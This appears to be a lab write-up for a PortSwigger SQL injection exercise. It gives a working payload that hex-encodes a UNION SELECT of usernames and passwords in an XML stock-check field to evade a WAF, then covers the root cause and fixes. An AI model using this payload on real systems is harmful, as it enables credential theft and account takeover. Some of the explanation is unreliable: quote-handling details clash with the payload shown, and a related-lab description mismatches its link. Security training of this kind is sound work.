

# SQL injection with filter bypass via XML encoding

| Field | Value |
|---|---|
| **Difficulty** | Practitioner |
| **Category** | SQL Injection |
| **Status** | Solved |
| **Lab URL** | `https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding` |

---

## Objective

The stock check feature is vulnerable to SQL injection. The application accepts XML containing `<productId>` and `<storeId>` elements, and the results of the SQL query are reflected in the response. A WAF/filter blocks classic injection payloads. The goal is to bypass the filter using XML encoding, retrieve the `administrator` credentials from the `users` table, and log in.

---

## Methodology

1. Identify the injection point in the `storeId` element of the stock check XML
2. Confirm the filter blocks plain SQL injection payloads
3. Bypass the filter by obfuscating the payload with XML hex encoding (Hackvertor)
4. Determine the query shape and inject a `UNION SELECT`
5. Retrieve the usernames and passwords from `users`
6. Log in as `administrator`

---

## 1. Identifying the injection point

The stock check feature submits XML:

```http
POST /product/stock HTTP/2
Host: <lab-id>.web-security-academy.net
Content-Type: application/xml
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>
        3
    </productId>
    <storeId>
        ...
    </storeId>
</stockCheck>
```

The `<storeId>` value is interpolated into a SQL query whose output is rendered in the response — a classic `UNION`-friendly injection point.

## 2. The filter blocks direct injection

A direct SQL injection attempt in the XML is filtered by the app's WAF before it ever reaches the database. The filter catches obviously-SQL content in the raw request body.

## 3. Bypassing the filter with XML encoding

Since the parser first decodes the XML **before** the SQL query is built, encoding the payload inside the XML side-steps the filter. Using Burp's **Hackvertor** extension, I wrapped the payload in hex entities:

```xml
<storeId>
    <@hex_entities>
        1 UNION SELECT username || '~' || password FROM users
    </@hex_entities>
</storeId>
```

Hackvertor's `<@hex_entities>` tag converts the inner text into XML character references (e.g. `&#x1;`, `&#x20;`). The WAF sees a body with no SQL words at all — only entity references — while the XML parser decodes them back into the real query before SQL execution.

The result — the full decoded request:

```xml
<storeId>
    1 UNION SELECT username || '~' || password FROM users
</storeId>
```

The `||` concatenates the username and password with a `~` separator so both values land in a single column of the `UNION` result.



---

## 4. Retrieving the credentials

The response returned the users:

```text
carlos~<REDACTED>
wiener~<REDACTED>
administrator~<REDACTED_LAB_PASSWORD>
```

The `administrator` credentials were present. I used them to log in to the application, and the lab was marked solved. (The actual password is deliberately not reproduced here.)

---

## Payload

```http
POST /product/stock HTTP/2
Content-Type: application/xml
```

```xml
<stockCheck>
    <productId>3</productId>
    <storeId>
        <@hex_entities>
            1 UNION SELECT username || '~' || password FROM users
        </@hex_entities>
    </storeId>
</stockCheck>
```

---

## Why It Works

The original query resembles:

```sql
SELECT * FROM products WHERE product_id = '3' AND store_id = '...'
```

The injected payload transforms the `store_id` value so the query returns both username and password:

```sql
... AND store_id = '1' UNION SELECT username || '~' || password FROM users'
```

- `'` closes the original string; `1` parses as a valid value
- `UNION SELECT` appends the attacker's result set — `username || '~' || password` packs both columns into one with a readable separator
- `FROM users` targets the credential table
- The trailing `'` is left to balance the query

The **filter bypass** is the key part: the request body carried hex entities (`&#x55;...`), not raw words, so it sailed past the WAF. The application's XML parser decoded them back into `UNION SELECT username || '~' || password FROM users` right before executing the SQL.

---

## Root Cause

The application parses attacker-controlled XML and interpolates a decoded element value directly into a SQL string without parameterization. The WAF inspects the raw body only, so any encoding the XML parser understands — hex entities here — becomes a free route past the filter.

```python
query = "SELECT * FROM products WHERE product_id='%s'" % xml_store_id  # vulnerable
```

---

## Impact

Credentials exfiltration and full administrator account takeover, all without tripping the raw-payload WAF. The same pattern generalizes to any filter that inspects the request before a decoding step re-materializes the attack payload.

---

## Fix

- **Parameterized queries / prepared statements** for all user-supplied values
- **Validate** input: store IDs should match a strict allowlist (numeric only)
- Harden the WAF with **context-aware, post-decoding inspection** — filter on the decoded value, not the raw bytes
- Apply **least privilege** to the DB account

---

## Key Takeaways

- A WAF that scans the raw body is blind to anything the request parser decodes later — XML entities, encoding quirks, etc.
- `||` is a handy one-char concatenation on PostgreSQL (and SQLite/Oracle) for stuffing two columns into one
- Hackvertor's `<@hex_entities>` tag is a fast way to generate XML-entity-obfuscated payloads in Burp
- Always send the payload where a decoder runs, not where the WAF looks

---

## Related Labs

- [04 - SQL injection UNION attack, determining the number of columns returned by the query](../04%20-%20SQL%20injection%20UNION%20attack%2C%20determining%20the%20number%20of%20columns%20returned%20by%20the%20query/README.md) — still a UNION-based injection, smuggled through a WAF via XML encoding
- [01 - SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](../01%20-%20SQL%20injection%20vulnerability%20in%20WHERE%20clause%20allowing%20retrieval%20of%20hidden%20data/README.md) — same injection point in the category filter

---

## References

- [PortSwigger: SQL injection](https://portswigger.net/web-security/sql-injection)
- [PortSwigger: Obfuscating via XML encoding](https://portswigger.net/web-security/sql-injection#obfuscating-attacks-using-xml-encoding)
- [OWASP: SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [Hackvertor](https://github.com/portswigger/hackvertor)